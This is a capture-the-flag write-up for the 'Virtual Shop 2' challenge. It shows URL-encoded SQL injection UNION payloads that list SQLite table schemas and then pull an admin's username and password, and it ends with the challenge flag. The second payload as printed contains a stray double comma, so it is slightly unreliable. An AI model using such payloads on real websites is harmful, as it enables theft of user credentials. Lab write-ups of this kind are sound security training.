




# Virtual Shop 2
## Writeup
So, this time we need to identify the table containing the users and their creds.

> Note that we are using sqlite3 in this chall.

To do so, send this payload:
```'+UNION+SELECT+sql,NULL,NULL,NULL+FROM +sqlite_master--```  
This way:  
  
We can see this in the response, which represents the sql queries that have been used to build the tables:  
  
> Note: This way of getting results is not available in all SQL SGBDs.   
We see that there are two tables, and one of them is obviously the users one: `UsEErrSS1337987`  
And it has to columns:   
`usnme324, pw789`   
And then we can send an sql query to have the admin's credantials with:  
```'+UNION+SELECT+usnme324,,NULL,pw789,NULL+FROM+UsEErrSS1337987--```  

And we get this result:



## Flag
```shellmates{iT_W4$_Not_TH4T_S3cuRE_4T_THe_END}```
